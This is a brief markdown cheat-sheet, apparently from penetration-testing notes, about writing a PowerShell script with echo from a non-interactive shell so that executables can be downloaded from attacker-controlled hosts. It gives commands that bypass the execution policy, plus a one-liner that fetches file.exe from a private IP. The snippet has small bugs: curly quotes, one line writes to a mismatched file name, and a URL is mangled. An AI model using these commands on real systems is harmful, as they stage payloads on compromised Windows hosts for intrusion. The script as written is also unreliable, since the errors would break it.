 # powershell

## Quick How To

* cannot use Powershell.exe with a non-interactive shell
* therefore, create a Powershell script then execute it

```bash
echo $storageDir = $pwd > wget.ps1
echo $webClient = New-Object System.Net.Webclient >> wget.ps1
echo $url = “[http://192.168.1.101/file.exe”](http://192.168.1.101/file.exe%E2%80%9D) >> wget.ps1
echo $file = “output-file.exe” >> wget1.ps1
echo $webclient.DownloadFile($url, $file) >> wget.ps1
```

* now, invoke the script

```bash
# use this to set the execution policy and download the file
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

# or this one-liner
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.10/file.exe', 'newfile.exe')
```

